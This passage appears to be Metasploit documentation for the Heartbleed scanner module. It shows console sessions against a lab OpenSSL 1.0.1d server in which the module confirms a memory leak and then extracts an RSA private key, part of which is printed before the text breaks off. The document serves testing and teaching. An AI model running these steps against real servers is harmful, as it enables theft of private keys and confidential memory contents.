   If `jabber` is selected for `TLS_CALLBACK`, the domain to use.  Default is `localhost`.

## Scenarios

### SCAN against s_server on Ubuntu 18.04 with OpenSSL 1.0.1d

With the default action of `SCAN` we can determine if the server is vulnerable or not.

```
msf5 > use auxiliary/scanner/ssl/openssl_heartbleed 
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set rhosts 222.222.2.222
rhosts => 222.222.2.222
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set rport 44330
rport => 44330
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > run

[+] 222.222.2.222:44330   - Heartbeat response with leak, 65535 bytes
[*] 222.222.2.222:44330   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### KEYS against s_server on Ubuntu 18.04 with OpenSSL 1.0.1d

In order to help elicit the keys, we can run the following code to help populate memory with
the keys:

```
watch 'cat openssl-1.0.1d/key.pem; cat openssl-1.0.1d/cert.pem'
```

```
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set action KEYS
action => KEYS
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > run

[*] 222.222.2.222:44330   - Scanning for private keys
[*] 222.222.2.222:44330   - Getting public key constants...
[*] 222.222.2.222:44330   - 2019-10-13 01:32:17 UTC - Starting.
[*] 222.222.2.222:44330   - 2019-10-13 01:32:17 UTC - Attempt 0...
[+] 222.222.2.222:44330   - 2019-10-13 01:32:18 UTC - Got the private key
[*] 222.222.2.222:44330   - -----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA7ax3L0LRt5uZQTFOiJkX2xRn9ww/G87gMkMBAdeEzph7a2/i
C4stnajh9NsUbACv+dt8mtwgh0Vg4lMaI5iB9lXlqfsR17vIsW+/AZXj3Eo+B0QU
l8MpVilDvm3Hee0tE9NGLMR+Vk1Eq0UL+w7Gc/IswkFtj8XGMQ3Jc6OaJ6Ofh5hF
VlmyQBrtwvZ/20g5KtMbZFv1XX28bjEd47qfTo8nrnCsrjD7h7R42GrRw9hhvWse
sEa9VyTwQF0W8mxTYFx/7evXeJNVw1drmhJrxpGfb9gl8qzQgf6PQoi1LXaPAdk5
1cshKeGXmcA+1FR5HOdvWEqzCjMxApzdExNSgwIDAQABAoIBACmdYAT7ayL98JiU
nI6YV6/5Y7bDAy3ITEMgrkV3Sf6ufjWykl65ENShJGcuEOZUPHvALZIj5uIoiK04
JcSDyIWsRpk7p8UhUSOYUFZju1DwAupcxkpIVq2Kbh0itaGooJLvFEN0aDaOMu7W
GSHtVVwp1CJzOE7LL0eZhWNlCvHTgwwobaAUYEyrDmkOdWskMC3RGu5JrrfKTK+5
VUwMMAJ7Wf+d+xeTrNHwGGdEvHd23p1B1E3+axG0XqxI7wODz14iAWgd1zp2gSq2
Ji/II0E8Okwl3AR0d8SD0cJeEPHWlrr/6LzBUTHanDBGe2SXP/SMFSvyEpoPw/s8
vovI1okCgYEA8Ju7TuE4V2UQjZi8qcNAFnbxfcS9bk8S+BBKkgKtMY6wZT8h03fP
ouYot1IaRxMVlErrUeVtD/YKD+nhNFFYZGCSChjAhvf1rq/wzRILWpdGZ3SF9UuR
NlNpH1DcVZPOdTxCJ8DfjY72m/ugYysorQdmo9L58BhMKbfp9aHOR0cCgYEA/OCs
73xWEECKS7of0B+3CKriYT7fROu5wP9gFl3/FR8q7275TG2Iwg0rDz4NLGJhcVQ8
4bNAz+OglxqXkIVOf5Cuj8DibAw2JTr+MP5wQUaB0fPdwPcNw/fBq68x/+UpdcM2
B98b2uykN3Q2Zd2g3VVrKUOb4yJlE1EEvVrt8OUCgYEAq6oQe3jIn+Hla4D7qgs6
IE0AgwDpPliAaigFbCMoumDZjYL7eUrUA58+kXysbuU40jKZrjaIF4ktKKlvGcqn
zAXya+24/xLOYLH6lfU30Ix5mLpUEOy3UBE2wTcJ3Ky18oLpmD9NwEutuyBOEDLs
tHbBTkTqOdi8Dk+/RpcI+2UCgYEAj5qDeqiwMyCDqMd0w3sPNTPdxP2wSvJWlVww
0+LjNbpyZnAt0JIvZIuX1VsWngrsbTA6Nq3V83i/vK+UPLUHQ/gEuYv+yP8STIg4
y9fiJZ+Fn5YOa0OhJJVw/S9LhJc9uSt3Znbz2ZojE37CWYzHiom0hkVnpE/m+FY9
C880amUCgYAw8b+F3iBCEzioeUWW62c89yQaV0Ci/BQgvkhLsRRZr5hlt8+NWjSv
```